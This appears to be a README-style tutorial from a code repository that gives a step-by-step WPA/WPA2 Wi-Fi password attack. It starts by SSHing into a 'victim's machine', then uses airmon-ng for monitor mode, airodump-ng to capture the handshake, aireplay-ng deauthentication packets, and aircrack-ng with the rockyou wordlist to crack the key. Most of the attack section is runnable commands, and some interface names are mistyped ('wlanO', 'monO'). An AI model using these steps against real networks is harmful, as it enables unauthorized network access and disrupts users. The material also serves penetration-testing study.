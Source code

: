 WiFi protected access.
WPA dinamically generate a new key for each packet.
WPA and WPA2 are frequently deployed with a pre-shared key, PSK, to secure communications between the access point and the wireless clients.
- The PSK should be a random pass phrase of at least 13 characters in length, if not, it is possible to determine the PSK using a Brute-Force Attack, by comparing the PSK to a known dictionary.

---
Start a WPA attack:
- Connect to the victim's machine by ssh
- List the available wireless interfaces installed on the victim's pc:
````
iwconfig
````
- Create a monitor interface using the airmon-ng command:
````
service network-manager stop

airmon-ng start wlanO

#check monitor mode is enabled
````
- List all the available access points in its range and find your target:
````
airodump-ng monO

#when you find your target press Ctrl+C to stop it
````
- Capture the traffic between the target access point and the client:
````
airodump-ng --bssid victim's_mac_address -c channel --showack -w wpa_log monO
````
(DO NOT CLOSE THIS WINDOW)
- Open another terminal to launch a de-authentication attack, which will force a user to re-authenticate to the target access point and re-exchange the WPA key:
````
aireplay-ng -0 20 -a  victim's_mac_address -c LOOK_DOWN_MAC mon0

#20 means that we will sen 20 de-authentication packets 
````
- Pick one and put it before:
![](img/pickone.png)
- Let's make sure that we captured the 4 way handshake:
![](img/4 way handshake.png)
- Now stop this terminal using Ctrl+C
- Now, we need to crack some passwords
````
aircrack-ng wpa_log-01.cap -w /usr/share/wordlists/rockyou.txt
````
![](img/passwords.png)
- We can also use **hashcat** or other tools to crack the passwords